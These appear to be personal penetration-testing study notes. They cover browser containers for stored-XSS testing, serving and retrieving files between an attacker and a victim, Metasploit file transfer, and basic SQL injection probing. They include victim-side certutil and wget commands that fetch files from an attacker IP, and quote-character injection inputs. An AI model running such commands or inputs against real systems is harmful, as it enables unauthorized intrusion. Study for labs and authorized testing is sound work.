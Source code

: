#### Firefox Multi-Account Containers
setup a container for testing -->  this allow us to:
							- have multiple sessions open
							- test across different users
useful example for -->  [[Notes_ETH#Stored XSS 0x01|Stored XSS]]

- search on firefox -->  [Firefox Multi-Account Containers](https://addons.mozilla.org/en-US/firefox/addon/multi-account-containers/)
- install it and open it
- click on Manage Container > click on Personal > Modify the name to `Container 1`
- modify the 2 one to `Container 2`
- delete the others


-----
## File transfers
Usually as attacker we -->  host files
### Host a file 
navigate to the directory where you have your files that you want to be hosted:
`python3 -m http.server 80`
or
`python3 -m pyftpdlib 21`

### Retrieve a file
#### Windows
`certutil.exe -urlcache -f http://10.10.10.10/file filename_for_download`
#### Linux
`wget http://10.10.10.10/file`


<span style="background:#fff88f">If `certutil` and `wget` are not working:</span>
`python3 -m pyftpdlib 21`   -->  from the attacker
`ftp 10.10.10.10`                  -->  from the victim

### Metasploit
if you have a meterpreter shell -->  you can use the features `upload/download`
                               to download and upload a file

-----
## Web Exploitation
check always the [[cheat#AppSecExplained|App Sec site]] for having a list of what to do during web exploitation
### SQL Injection
[SQL Injection Cheet Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
#### Basic check
- find a value that return something -->  es `jeremy`
- then try to use characters that might trigger an error:
  `jeremy'`
  `jeremy"`
  `'`
  `"`
